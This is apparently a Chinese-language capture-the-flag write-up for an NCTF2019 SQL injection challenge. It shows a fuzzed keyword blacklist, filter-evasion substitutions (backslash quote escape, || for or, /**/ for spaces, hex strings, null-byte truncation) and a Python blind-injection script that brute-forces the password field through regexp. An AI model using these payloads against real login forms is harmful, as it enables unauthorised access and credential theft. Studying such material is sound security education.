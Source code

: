 # SQLI
## 考察知识点：
### 1.无法使用select时的注入
### 2.各种关键字替换

### 解题思路
### 1.fuzz
得到过滤名单：
```
"/limit|by|substr|mid|,|admin|benchmark|like|or|char|union|substring|select|greatest|\'|=|
|in|<|>|-|\.|\(\)|#|and|if|database|users|where|table|concat|insert|join|having|sleep/i";
```

发现过滤异常严格，连select都被过滤了,采用过滤select时的堆叠注入，但是table|database也被过滤...

### 2.但是这个地方采用的是登陆框的形式，有两个参数可以控制，并且给出了sql语句，就是简单的拼接

### 3.本地实验

虽然单引号被过滤，但是此处不难想到可以转义


![image](images/9F222969F8D74D47845779DE0B3B383BSQLi1.png)

在本地执行时，regexp会将内容含有a的列匹配出来

## 此时本题的思路就明显了，可以爆破匹配passwd字段的内容。

但是此时还有一个问题，我们无法知道，我们输入的语句是否执行成功

### 4.在靶机进行尝试

```
or-->||
空格-->/**/
'a'-->0x61
最后的单引号-->%00
```

### 5.匹配的内容爆破尝试

![image](images/9422BA9EF2F6445C9260447B308BCE96SQLi2.png)

会返回两种内容，推测语句执行成功时，页面不会给出`alert("try to make the sqlquery have its own results")`的提示

### 6.此时可以写出盲注脚本(或者也可以说是爆破)

这里给一下在大佬脚本基础上修改的脚本

```
# python2
# coding=utf-8
import requests

s = requests.session()

url = "http://nctf2019.x1ct34m.com:40005/index.php"
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0',
    'Content-Type': 'application/x-www-form-urlencoded'
}
cookies = {

}

flag = ""
first_num = ""
# strings = '#abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_'

# 将所有字符组合，爆破密码
esay_string = "yeiklnoruvwEIKLNORUVWY0789_"
# esay_string = "adimnADIMN"

#该字符串如果在passwd中，则将他加入组合与其他字符串拼接
# 得到所有属于passwd的字符串组合
def assembly(e):
    res1=''
    for i in e:
        res1 += hex(ord(i))
    res1 = res1.replace("0x", "")
    res1 = "0x" + res1
    # print(res1)
    return res1

for j in range(100):
    # for i in strings:
    for i in esay_string:
        # 此处的chr(0）为空字符，在sql中有截断作用
        # 得到密码中的所有的字符
        # payload = '/**/||passwd/**/regexp/**/{};{}'.format(hex(ord(i)), chr(0))
        # payload = '/**/||username/**/regexp/**/{};{}'.format(hex(ord(i)), chr(0))
        parmy=assembly(flag+i)
        payload = '/**/||passwd/**/regexp/**/{};{}'.format(parmy, chr(0))
        # payload = '/**/||username/**/regexp/**/{};{}'.format(parmy, chr(0))

        data = {
            'username': '\\',
            'passwd': payload
        }
        r = requests.post(url=url, headers=headers, data=data)
        # print payload
        # print r.content.decode("utf-8")

        if "go back to get the password" in r.content.decode("utf-8"):
            # 对全局变量flag进行叠加
            flag=flag+i
            # print r.content.decode("utf-8")
            first_num = first_num + i
            print first_num

```